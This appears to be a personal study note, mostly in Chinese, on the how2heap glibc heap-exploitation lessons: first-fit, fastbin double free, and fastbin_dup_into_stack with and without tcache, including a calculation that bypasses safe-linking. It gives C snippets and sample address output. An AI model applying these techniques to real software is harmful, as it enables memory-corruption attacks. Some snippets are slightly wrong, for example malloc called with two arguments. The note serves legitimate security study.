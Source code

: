 # Reference:
https://github.com/shellphish/how2heap/tree/master
https://www.giantbranch.cn/2017/09/29/how2heap%E5%AD%A6%E4%B9%A0/
# 1.0 first-fit
不是 攻击 只是一个structure 概念 
```
char* a = malloc(0x512);
char* b = malloc(0x256);
free(a) 
c = malloc(0x500);
```
只要 malloc c size < free a 的 size 
c 就会 占 a 的 allocation 
就是
```
0x5567377d6420 A
0x5567377d6630 B
free A -> [0x5567377d6420]
0x5567377d6420 c
-> []
```

# 2.0 fastbin_dup
double free 的感觉
```
int *a = calloc(1, 8);
int *b = calloc(1, 8);
int *c = calloc(1, 8);
free(a);
free(b);
free(a);
a = calloc(1, 8);
b = calloc(1, 8);
c = calloc(1, 8);
```
如果 malloc 了  A B C 
这时候 free A 后 就不能再 free A 了 会报错
因为 free list 最前面是 A
可是 如果我们 free B 后 还可以再 free A
malloc  E D F 
这个时候 E = A, D = B, F = A
```
1st malloc(8): 0x5565d7d0b420 A
2nd malloc(8): 0x5565d7d0b440 B
3rd malloc(8): 0x5565d7d0b460 C
free(a) -> [0x5565d7d0b420]
free(b) -> [0x5565d7d0b440,0x5565d7d0b420]
free(a) -> [0x5565d7d0b420,0x5565d7d0b440,0x5565d7d0b420]
1st malloc(8): 0x5565d7d0b420 E = A 
2nd malloc(8): 0x5565d7d0b440 D = B 
3rd malloc(8): 0x5565d7d0b420 F = A
-> []
```

# 3.0 fastbin_dup_into_stack 2.23 no tcache
如果要改 libc 版本
```shell
改 version
H2H_USE_SYSTEM_LIBC=N make v2.23

恢复
make clean base
```

这个结论是 可以用double free 改 return address 为 stack 上面的位置
```
int *a = malloc(1, 8);
int *b = malloc(1, 8);
int *c = malloc(1, 8);
free(a);
free(b);
free(a);
unsigned long long *d = malloc(8);
a = malloc(1, 8);
unsigned long long stack_var;
stack_var = 0x20;
*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));
int *e = malloc(1, 8);
int *f = malloc(1, 8);
```
和 double free 概念一样
就是当 free list 还剩下 A 时候
其实我们已经 malloc 出一个 A
我们可以改这个malloc 出来的 A

怎样改？
xxx = 0x20 (一定要 是 0x20 这里是做 fake chunk
把可以控制的 A 改成 stack - 8 
下一次 malloc 的时候 A 就会出来
这个时候 free list 应该是 空的
可是再 malloc 一次  就会按 stack 的地址 + 0x10 出来 

结果
```
1st malloc(8): 0x559de864e010 A
2nd malloc(8): 0x559de864e030 B
3rd malloc(8): 0x559de864e050 C
free(a) -> [0x559de864e010]
free(b) -> [0x559de864e030,0x559de864e010]
free(a) -> [0x559de864e010,0x559de864e030,0x559de864e010]
1st malloc(8): 0x559de864e010 D = A 
2nd malloc(8): 0x559de864e030 E = B 
-> [0x559de864e010 A]
Now, we have access to 0x559de864e010 while it remains at the head of the free list
stack = 0x20 :  0x7ffd22f86028 STACK
*d =  0x7ffd22f86028 - 8 = 0x7ffd22f86020 <- 是value 不是address
3rd malloc(8): 0x559de864e010
-> []
4th malloc(8): 0x7ffd22f86030 <- 控制的地方是这里
```

# 4.0 fastbin_dup_into_stack 2.39 with tcache
with tache 就有一点不同
需要先填满 tache 
就是先 填满 7 次 然后再 free 完
```
void *ptrs[7];

	for (int i=0; i<7; i++) {
		ptrs[i] = malloc(8);
	}
	for (int i=0; i<7; i++) {
		free(ptrs[i]);
	}
```
bypass 的方法也是有一点 不同
可是原理是一样的 
现在 double free 完了 free list 还有 A 

要让 MALLOC 出来的 A = A address >> 12 ^ stack address
0x5583c772e380 >> 12 = 0x5583c772e
0x5583c772e ^  stack address (0x7ffc14f9db70) = 0x7ff94cc5ac5e

虽然 我最后 进 A 的 value是 0x7ff94cc5ac5e
可是 我 ret 出的 address 还是 0x7ffc14f9db70 + 0x10

去绕过 safe link detection
```
1st malloc(8): 0x5583c772e380 A
2nd malloc(8): 0x5583c772e3a0 B
3rd malloc(8): 0x5583c772e3c0 C
free(a) -> [0x5583c772e380]
free(b) -> [0x5583c772e3a0,0x5583c772e380]
free(a) -> [0x5583c772e380,0x5583c772e3a0,0x5583c772e380]
1st malloc(8): 0x5583c772e380 D = A 
2nd malloc(8): 0x5583c772e3a0 E = B 
-> [0x5583c772e380 A]
Now, we have access to 0x5583c772e380 while it remains at the head of the free list
stack = 0x20 :  0x7ffc14f9db70 STACK
*d =  0x5583c772e380 >> 12 ^ 0x7ffc14f9db70 = 0x7ff94cc5ac5e <- 是value 不是address
3rd malloc(8): 0x5583c772e380
-> []
4th malloc(8): 0x7ffc14f9db80 <- 控制的地方是这里
```


